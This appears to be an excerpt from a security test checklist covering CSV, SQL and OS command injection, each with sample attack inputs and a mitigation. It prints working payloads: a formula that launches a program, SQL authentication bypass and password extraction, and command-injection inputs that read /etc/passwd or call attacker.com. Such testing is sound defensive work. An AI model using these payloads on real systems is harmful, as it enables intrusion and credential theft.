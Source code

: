 ## INJECTION {#injection}

### Test 38: CSV Injection

**Issue**: Malicious formulas in exports.

**Execution**:
```
Name: =cmd|'/c calc'!A1
Export to CSV
Open in Excel → Calculator launches
```

**Mitigation**: Prefix with single quote: `'=formula`

---

### Test 39: SQL Injection

**Issue**: Database manipulation.

**Execution**:
```bash
# Authentication bypass
Username: admin' OR '1'='1
Password: anything

# Data extraction
?id=1' UNION SELECT username,password FROM users--
```

**Mitigation**: Parameterized queries.

```swift
let query = "SELECT * FROM users WHERE id = ?"
statement.bind(id)
```

---

### Test 41: OS Command Injection

**Issue**: Execute system commands.

**Execution**:
```bash
# Input: test; whoami
# Input: test | cat /etc/passwd
# Input: test $(curl attacker.com)
```

**Mitigation**: Avoid system calls, use libraries.

```python
# Bad
os.system("ping " + user_input)

# Good
subprocess.run(["ping", "-c", "1", validated_ip])
```

---